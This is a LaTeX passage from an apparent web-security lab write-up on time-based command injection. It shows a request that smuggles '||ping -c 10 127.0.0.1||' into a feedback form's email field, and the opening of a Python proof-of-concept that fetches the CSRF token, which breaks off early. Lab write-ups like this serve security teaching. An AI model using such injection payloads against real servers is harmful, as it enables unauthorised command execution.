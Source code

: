 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
\begin{lstlisting}[label={lst:modified-request},caption={Modified request}]
      csrf=0Fdn9Kp5NSKWRNwvp9xiuFSt0gJ5DaXU&name=potato&email=potato||ping+-c+10+127.0.0.1||&subject=potato&message=potato
      \end{lstlisting}
      \item Forward the modified request and observe the result.
      \begin{figure}[htbp]
      \centering
      \includegraphics[width=0.7\textwidth]{../figure/figure4.png}
      \caption{Result of the ping delay payload}
      \label{fig:ping-result}
      \end{figure}

    \end{enumerate}

    \newpage
    \item[\textbf{Solution using Python script}:] \leavevmode\par
    The following Python script is a PoC that inserts a payload into the feedback form’s \texttt{email} field to induce a time delay, in order to verify whether the server interprets that input as a shell command (time-based command-injection).
    The script first extracts the CSRF token from the feedback page, then sends a value containing the command ping -c 10 localhost and judges vulnerability based on the response delay (10 seconds).
    All requests are configured to be sent through a local proxy (e.g., Burp Suite), allowing traffic analysis.

    \begin{lstlisting}[label={lst:modified-request},caption={Python script for problem 2}, showspaces=false,showstringspaces=false]
    import requests
    import sys
    import urllib3
    from bs4 import BeautifulSoup

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    proxies = { 'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080' }

    def get_crsf(s, url):
        feedback_path = "/feedback"
        r = s.get(url + feedback_path, verify=False)
        soup = BeautifulSoup(r.text, 'html.parser')
        csrf = soup.find('input')['value']
        return csrf


\end{lstlisting}
\end{description}
\end{document}
